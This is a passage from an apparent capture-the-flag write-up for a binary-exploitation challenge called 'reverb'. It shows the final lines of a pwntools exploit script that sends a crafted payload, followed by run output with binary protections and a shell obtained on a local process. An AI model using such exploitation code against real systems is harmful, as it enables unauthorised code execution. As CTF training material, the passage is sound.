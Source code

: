 ``` python
    p += p64(ret_addr + i)
    io.sendlineafter(b">> ", p)

s = b"%s".ljust(8,b"_")
io.sendlineafter(b">> ",s)                        # Provocar el retorno y con ello la llamada a nuestro codigo
io.interactive()
```

``` 
python3 solve.py 
[*] '/home/kalcast/Descargas/reverb/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] '/home/kalcast/Descargas/reverb/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Starting local process '/home/kalcast/Descargas/reverb/chall': pid 33652
[*] Loaded 5 cached gadgets for './chall'
[*] Loaded 219 cached gadgets for '/home/kalcast/Descargas/reverb/libc.so.6'
[*] Switching to interactive mode
$ whoami
kalcast
$  
```
